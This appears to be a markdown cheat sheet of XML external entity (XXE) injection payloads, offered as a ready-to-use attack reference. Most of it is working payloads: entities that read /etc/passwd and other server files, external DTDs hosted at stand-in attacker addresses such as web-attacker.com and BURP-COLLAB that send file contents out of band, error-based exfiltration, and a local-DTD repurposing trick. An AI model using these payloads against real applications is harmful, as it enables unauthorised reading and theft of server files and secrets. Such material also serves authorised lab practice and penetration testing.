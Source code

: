 # XML external entity (XXE) Injection
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

## XML payloads
Define external entity and use it:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>

or

    <!ENTITY % file SYSTEM "file:///home/carlos/secret">
    <!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://BURP-COLLAB/?c=%file;'>">
    %eval;
    %exf;

Steal information via OAST:

    1. Use this at the exploit server
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;

    2. Use this at the victim to make it use the above external DTD:
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;
    %eval;
    %error;]>

Steal information via error message:

    1. Use this at the exploit server
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">

    2. Use this at the victim to make it use the above external DTD:
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;
    %eval;
    %error;]>

Repurposing a local DTD:

    1. Locating an existing DTD file to repurpose (cause error if file is missing):
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    %local_dtd;
    ]>
    2. If the local DTD file is at /usr/local/app/schema.dtd and custom_entity is present, overwrite it:
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
